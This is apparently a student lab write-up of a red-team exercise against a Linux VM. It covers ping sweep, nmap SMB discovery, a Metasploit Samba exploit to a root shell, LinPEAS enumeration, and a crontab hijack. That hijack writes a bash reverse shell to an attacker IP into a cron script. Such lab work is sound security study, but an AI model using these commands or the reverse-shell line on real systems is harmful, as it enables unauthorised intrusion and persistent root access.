

# Privilege Escalation Detection Lab: Red vs Blue Simulation
real-world cyber attack against a vulnerable Linux server and demonstrates how such activity can be detected using the ELK Stack.

started 17:25 

## 1. Reconnaisance



Performed a ping sweep on the subnet to probe any active hosts on the network. Our target machine as for this project is victim2, which is identified as 192.168.42.156

## 2. Enumeration phase


NMAP port scan results provided us with multiple exposed service. Our main interest in this list is samba, because it is an attractive target due to its reputation of
vulnerability. Moreover, this Samba service was running an outdated version which made it particularly interesting
for further exploitation. 


For further enumeration about any intel about service, OS etc, I used this command:

```bash
nmap --script smb-os-discovery 192.168.42.156
```


## 3. Initial Access


I narrowed the search for samba by filtering the search to exploits only with a ranking of excellent, 
since those have a higher chance of working reliably./samba/is_known_pipename turned out to be the best optino to gain shell on the target system


The exploit was a success, and we managed to gain shell access to victim2.
Running whoami confirmed that shell is running on root privileges, as shown in the output


## 4. Discovery


After gaining access to shell, we want to further enumerate possible entry points in terms of exploitation. 
LINpeas is a privilege escalation enumeration tool designed for Linux. It is used to find possible vulnerabilities on the system once you gained control of it. 


etc/sudoers.d/README is writable. If these filese are writable by a normal user, this could lead to modification of sudo rules which can lead to privilege escalation to root.


Several active ports and servuces, such as those mentioned in nmap in addition to local services local in localservice itself. 


There is no crontab configured but there are several jobs running under "cron.daily" and "cron.weekly". 
Some of the cron directories are writable, which means a low privileged user could modify the .sh scripts. If that happens, maliious commands could be executed seamlessly with root privileges, leading to privilege escalation. Critical yet we want to attack now, try find entry point


## Exploit - Crontab misconfiguration


backup.sh, running every minute. we can try feed in malicious script but need to locate


found in /lucas directory, probably a user hehe. Inject malicious reverse shell script

printf '#!/bin/bash\nbash -i >& /dev/tcp/192.168.42.234/2590 0>&1\n' > backup.sh

meterpreter seemingly responded well on the request

We now have root access from user 


